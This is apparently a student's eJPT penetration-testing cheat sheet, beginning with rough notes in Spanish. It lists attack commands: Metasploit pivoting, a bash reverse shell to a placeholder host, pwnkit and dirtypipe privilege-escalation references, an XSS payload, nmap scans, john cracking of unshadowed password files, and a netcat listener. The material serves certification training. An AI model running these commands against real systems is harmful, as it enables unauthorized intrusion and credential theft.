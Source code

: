 route add <ip> <mascaradesubred> 2
sessions -l
sessions -i 2
portfwd add -l 5000 -p 80 -r <ip>
```

localhost en el puerto del port forwarding

Antique
port 23 telnet ip puerto

snmpwalk -c -v2c ip

```
bash -c "bash -i >& /dev/tcp/<ip>/<puerto> 0>&1"
```

pkexec pwnkit
gcc dirtypipe
xsser --url "web" -p "variable=XSS&variable+XSS" | --auto | --Fp "<script>alert(1)</script>"

https://methodological-notes.gitbook.io/ejptv2-preparation/


# eJPT-Cheatsheet

## Command Cheetsheet:

### Nmap

nmap -sn 10.10.10.0/24\
nmap -sV -p- -iL targets -oN nmap.initial -v\
nmap -A -p- -iL targets -oN nmap.aggressive -v\
nmap -p --script=vuln -v

### fPing

fping -a -g 10.10.10.0/24 2>/dev/null > targets

### IP Route

**Syntax**\
ip route add \<Network-range> via \<router-IP> dev \<interface>\
eg.\
ip route add 10.10.10.0/24 via 10.10.11.1 dev tap0

### John

john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5\
unshadow passwd shadow > unshadowed.txt\
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

### dirb

dirb [http://10.10.10.10/](http://10.10.10.10/)\
dirb [http://10.10.10.10/dir](http://10.10.10.10/dir) -u admin:admin

_I suggest you to use dirbuster for better speed. Keep the threads at 20. Use /usr/share/wordlists/dirb/common.txt wordlist._

### Netcat

**Listening for reverse shell**\
nc -nvlp 1234
```